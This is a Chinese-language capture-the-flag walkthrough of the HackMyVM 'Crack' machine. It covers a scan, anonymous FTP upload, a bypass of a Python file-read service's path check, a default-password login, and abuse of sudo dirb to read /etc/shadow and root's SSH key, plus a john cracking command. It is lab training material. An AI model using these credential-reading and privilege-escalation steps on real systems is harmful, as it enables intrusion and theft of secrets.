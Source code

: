 # Crack

2025.02.26 https://hackmyvm.eu/machines/machine.php?vm=Crack

[video](https://www.bilibili.com/video/BV1BKPGewErb/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.39

## Scan

```
PORT      STATE SERVICE
21/tcp    open  ftp
4200/tcp  open  vrml-multi-use
12359/tcp open  unknown
```

访问 https://192.168.5.39:4200/ 显示的是一个 shell in a box 但是需要输入用户名和密码，目前没有用户凭据。

ftp 可以匿名登陆，/upload 目录权限 777 可以写文件，/upload/crack.py 将其下载，发现就是端口 12359 上运行的 python 文件。

```python
no = "NO"
while True:
        try:
                c.send('File to read:'.encode())
                data = c.recv(1024)
                file = (str(data, 'utf-8').strip())  # 这里输入 /etc/passwd
                filename = os.path.basename(file)    # 这里将返回输入路径的最后一个文件的文件名，如果输入 /etc/passwd 就返回 passwd
                check = "/srv/ftp/upload/"+filename  # 这里变成了 /srv/ftp/upload/passwd
                if os.path.isfile(check) and os.path.isfile(file):  # 这里 /srv/ftp/upload/passwd 和 /etc/passwd 都是存在的文件，直接绕过这个判断读取到 /etc/passwd
                        f = open(file,"r")
                        lines = f.readlines()
                        lines = str(lines)
                        lines = lines.encode()
                        c.send(lines)
                else:
                        c.send(no.encode())
        except ConnectionResetError:
                pass
```

nc 192.168.5.39 12359 输入 crack.py 就可以读取/srv/ftp/upload/中的文件，这里要尝试读取到系统内的其他文件，这里需要绕过这里的代码判断逻辑：os.path.isfile(check) and os.path.isfile(file) 这里上传一个空的 passwd 文件，然后 nc 连接，读取文件 /etc/passwd 这时就绕过了上述的代码判断，读取到了/etc/passwd 文件:

```
['root:x:0:0:root:/root:/bin/bash\n',
'cris:x:1000:1000:cris,,,:/home/cris:/bin/bash\n',
'shellinabox:x:106:112:Shell In A Box,,,:/var/lib/shellinabox:/usr/sbin/nologin\n']
```

这里发现了 2 个用户名 cris 和 shellinabox ，目前没有密码，尝试将用户名当成密码进行登陆。cris:cris 登陆成功。

得到了 user flag：

```
cris@crack:~$ cat user.txt
eG4TUsTBxSFjTOPHMV
```

sudo -l 发现 (ALL) NOPASSWD: /usr/bin/dirb 可以利用 dirb 扫描时传入的参数读取系统中的 root 权限的文件：

```
sudo /usr/bin/dirb http://192.168.5.3 /etc/shadow -v

root:$y$j9T$LVT9GIrLdk5L.xns1akJZ1$wmigJ7er07AT/VwIAuYSZ3j94LOCe8EJHC6d2mlZVo3:19515:0:99999:7:::
```

尝试 john 进行破解，但是没爆出来：

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash --format=crypt
```

这里不能直接读取到/root/root.txt 应该是文件做了变形。

或者探测读取/root/.ssh/id_rsa 私钥文件:

```
sudo dirb http://192.168.5.3/ /root/.ssh/id_rsa -v
```

然后将私钥内容进行格式整理保存，并补齐首位格式：

```
cat tmp|awk -F '192.168.5.3/' '{print $2}'|awk -F ' ' '{print $1}' > root_rsa

-----BEGIN OPENSSH PRIVATE KEY-----
...
-----END OPENSSH PRIVATE KEY-----
```

然后将私钥上传至目标机器上，127.0.0.1:22 在本地登陆 ssh，最终获得 root flag：

```
root@crack:~# cat root_fl4g.txt
wRt2xlFjcYqXXo4HMV
```

当 /etc/vsftpd.conf 配置文件中允许匿名用户登陆时 anonymous_enable=YES ，默认的匿名登陆文件目录就在 /srv/ftp/

